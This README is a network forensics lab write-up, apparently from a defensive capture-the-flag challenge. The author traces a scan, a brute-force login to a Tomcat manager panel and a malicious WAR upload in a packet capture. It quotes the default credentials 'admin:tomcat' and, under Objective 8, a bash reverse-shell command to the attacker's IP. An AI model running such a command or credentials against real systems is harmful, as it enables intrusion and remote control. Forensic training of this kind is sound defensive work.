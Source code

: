 # Network-Forensics-Lab

## Objective

The primary objective of the Network Forensics project was to employ a Network Protocol Analyzer system such as Wireshark for PCAP (Packet Capture) Analysis and Credential Analysis. The purpose of this practical experience was to equip me with the necessary skills and knowledge to proficiently capture, troubleshoot, analyze, and investigate network traffic for the purpose of identifying anomalies or security incidents, analyzing network traffic patterns, decoding protocols, and uncovering credential-based attacks

### Skills Learned


- Proficiency in identifying and interpreting anomalies within network traffic pattern
- Proficiency in analyzing and interpreting network logs.
- Proficiency in applying Wireshark for capturing and analyzing network traffic.
- Enhanced knowledge of network protocols and security vulnerabilities.
- Enhancing knowledge of network forensics methodologies and best practices
- Successfully applied credential analysis techniques to uncover unauthorized access attempts


### Tools Used

- Network forensic analysis tool for parsing PCAP files and extracting valuable information from captured network traffic.
- Network analysis tools (such as Wireshark and NetworkMiner) for capturing and examining network traffic.
- Telemetry generation tools to create realistic network traffic and attack scenarios.
- Open-source network intrusion detection system (NIDS) for real-time traffic analysis and packet logging.
- Network analysis framework (such as Zeek) for detailed insights into network traffic.


#### Steps

##### Objective 1: Given the suspicious activity detected on the web server, the pcap analysis shows a series of requests across various ports, suggesting a potential scanning behavior. My goal here was to identify the source IP address responsible for initiating these requests on our server.

- Employ NetworkMiner to pinpoint the IP address responsible for sending large packets. Assess whether this IP might belong to a potential attacker by scrutinizing the OS details to check for indications of network scanner usage. Furthermore, apply Wireshark to detect IP addresses that transmitted packets simultaneously but on distinct ports.

- Download the pcap file and extract with WinRAR. 

 <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/3311e44e-0152-46b9-8019-b7903934f1cd">

 <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/b824e42e-05db-4854-b7bf-f2814135da32">
 
- Open the file on NetworkMiner and proceed to identify the IP address that sent large packets, which was 14.0.0.120

  <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/466fe307-9ad1-4923-99ff-e582b0296870">

- Determine if the IP is from a potential attacker by examining the OS details to see if any network scanners were used. Discovered that the OS used is MAC and a scanning tool was also used (NMAP). 

 <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/71a7b082-d45a-4094-9056-aac4846e7588">

- By Employing Wireshark to identify IP addresses that sent packet at the same time but on different ports, the IP address responsible for initiating this request was discovered to be: 14.0.0.120 

##### Objective 2: Based on the identified IP address associated with the attacker, the city from which the attacker’s activities originated needs to be ascertained.

- Look up the IP address city by going to https://ipwhoisinfo.com 
 
 <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/bccf3fec-0e61-4daf-99d7-8356e12dcf40">

 <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/b665fcb6-81bf-4a4a-b442-e6ca49131b57">

 <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/267c359a-79c1-4615-8099-95a79e01df71">

- Carefully analyzing the results of the analysis reveals that the city from where the attacker’s activities originated from is Guangzhou in China
  
##### Objective 3: From the pcap analysis, multiple open ports were detected as a result of the attacker’s scan. Find out which of these ports provides access to the web admin panel.

- Access NetworkMiner.
  
 <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/e7533e2b-acc5-4f83-a34c-9300a492117b">
- Specifically, the IP address 10.0.0.112 [Tomcat Host Manager Application] [Tomcat Manager Application] (Linux). There you will find the open port which provides access to the web server admin panel is port 8080

<img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/4e9d39b5-b792-4c5d-bcb8-2d4a2446e8f8">

##### Objective 4: Find out which tool can be identified from the analysis that assisted the attacker in this enumeration process.

- Access NetworkMiner
  
 <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/d6841b16-f41c-47bf-b312-f7f7f5db7c10">
 
- Since the tools must have been used from the attacker’s machine, proceed to analyze the attacker’s machine 14.0.0.120 (other).

 <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/d1b7a542-2146-4a9c-a67a-272530bb412c">
 
- Click on Host Details to find out the details of the tool which must have been used to enumerate and uncover directories and files on the web server

 <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/0c54671e-cbf2-46a3-b699-81084c5fac9f">
 
“gobuster” is the tool that was used. Gobuster is a brute-force scanner tool used to enumerate directories and files of websites. 

##### Objective 5: Find out which specific directory associated with the admin panel the attacker was able to uncover. 

- Look for a packet that contains admin in the info section on Wireshark, right click on the packet with No. 20126 and follow the HTTP stream.
- Upon thorough observation, among the GET requests by the attacker, I discovered one of the directories “/manager” with an unauthorized response. 
 
   <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/fb615987-0ebb-41d9-8177-921a419bde69">
   
   <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/f908f7aa-a7c6-4891-93d2-937b7814efc7">

   <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/9e276350-8354-48ab-9459-2575e38a832a">

   <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/b07f9481-3bba-40c9-8ab7-65c7e01adcf2">


##### Objective 6: From the data, identify the correct username and password combination that the attacker successfully used for authorization.

- Look for the POST method used by filtering “http.request.method==”POST” on Wireshark.
- Double click on the result and scroll down the authorization section under HTTP and the credentials that the attacker used for authorization “admin:tomcat” is revealed.
 
<img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/b25de478-58b8-4e46-a9c5-d0ba30348b3d">

##### Objective 7: Identify the name of this malicious file from the captured data. 
 
- Replicate the steps outlined in objective 5. However, this time, examine the TCP stream instead of HTTP.
- The file name "JXQOZY.war" can be located on the same line as Content Disposition.
 
 <img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/973f9a54-9656-4b9a-ab4b-6c4ad822a85f">

<img src="https://github.com/CyberHaack/Network-Forensics-Lab/assets/163551482/d75a5f18-9917-4d07-a59e-787983a94c71">

##### Objective 8: From the analysis, determine the specific command they are scheduled to run to maintain their presence.

- The specific command is: /bin/bash -c -I >& /dev/tcp/14.0.0.120/443 0>&1’


### Associated Labs
- Poisoned Credentials Labs : 
<a href="https://cyberdefenders.org/blueteam-ctf-challenges/progress/Kachi/146/">View here</a>
- Wifi Security Forensics : <a href="https://attackdefense.com/challengedetails?cid=71">View here</a>







